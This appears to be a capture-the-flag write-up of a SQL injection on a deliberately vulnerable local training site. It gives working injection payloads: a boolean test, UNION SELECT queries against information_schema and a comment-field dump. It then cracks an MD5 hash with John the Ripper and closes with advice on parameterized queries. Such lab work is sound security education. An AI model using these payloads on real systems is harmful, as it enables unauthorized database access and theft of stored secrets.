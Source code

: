 ## [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)

This vulnerability occurs on the [Search Image](http://localhost:8080/index.php?page=searchimg) page. We try every ID starting from `1` and with `5`, we get this:

```
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

Since this input field looks very vulnerable to SQL injections, we try a single quote like in the [Members](/sql_injection_members) page. It doesn't output anything, so we need to be more creative, with `42 OR TRUE--`:

```
ID: 5 OR TRUE--
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 5 OR TRUE--
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 5 OR TRUE--
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 5 OR TRUE--
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 5 OR TRUE--
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

This doesn't give us anything new but it proves that the input field is vulnerable to SQL injections.

Now we use another command to see what tables we have access to:

```
ID: 42 UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema=DATABASE()--
Title: list_images
Url :
```

We now explore `list_images`, by encoding the column name in hexa:

```
ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: id
Url :

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: url
Url :

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: title
Url :

ID: 42 UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573--
Title: comment
Url :
```

There is a comment field which we didn't know about. Fetching its values gives us:

```
ID: 42 UNION SELECT title, comment FROM list_images--
Title: An image about the NSA !
Url : Nsa

ID: 42 UNION SELECT title, comment FROM list_images--
Title: There is a number..
Url : 42 !

ID: 42 UNION SELECT title, comment FROM list_images--
Title: Google it !
Url : Google

ID: 42 UNION SELECT title, comment FROM list_images--
Title: Earth!
Url : Earth

ID: 42 UNION SELECT title, comment FROM list_images--
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

We just need to follow the instructions:

```console
$ john --format=Raw-MD5 sql_injection_images/resources/comment
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=20
Proceeding with single, rules:Single
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:00 DONE 1/3 (2025-05-24 15:16) 0g/s 50750p/s 50750c/s 50750C/s Comment1909..Comment1900
Proceeding with wordlist:/tmp/tmpv8957wdu/password.lst
Enabling duplicate candidate password suppressor
albatroz         (comment)
1g 0:00:00:00 DONE 2/3 (2025-05-24 15:16) 9.090g/s 2164Kp/s 2164Kc/s 2164KC/s billy420..Thanks
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
$ echo -n albatroz | sha256sum
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```

To defend against SQL injections, use parameterized queries (also known as prepared statements) everywhere so the ORM, not your code, handles quoting and type-checking. Escaping tricks like replacing quotes only give a false sense of security—an attacker will just switch to `0x`, `CHAR()` or similar tricks.
